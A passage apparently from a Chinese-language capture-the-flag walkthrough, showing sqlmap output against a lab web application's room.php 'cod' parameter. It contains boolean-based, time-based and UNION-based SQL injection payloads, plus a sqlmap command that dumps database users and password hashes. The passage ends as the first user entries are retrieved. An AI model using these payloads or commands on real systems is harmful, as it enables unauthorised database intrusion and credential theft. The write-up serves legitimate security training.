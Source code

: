         Payload: cod=1 AND 8643=8643
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:03:41] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:03:41] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'
    
    [*] ending @ 15:03:41 /2019-06-28/
    

我可以用它来转储sql用户名和密码：

    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --users --passwords
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [(]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 15:05:59 /2019-06-28/
    
    [15:05:59] [INFO] fetched random HTTP User-Agent header value 'Opera/9.80 (Windows NT 5.1; U; ru) Presto/2.5.22 Version/10.50' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:06:00] [INFO] resuming back-end DBMS 'mysql'
    [15:06:00] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:06:00] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:06:00] [INFO] fetching database users
    [15:06:00] [INFO] used SQL query returns 28 entries
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''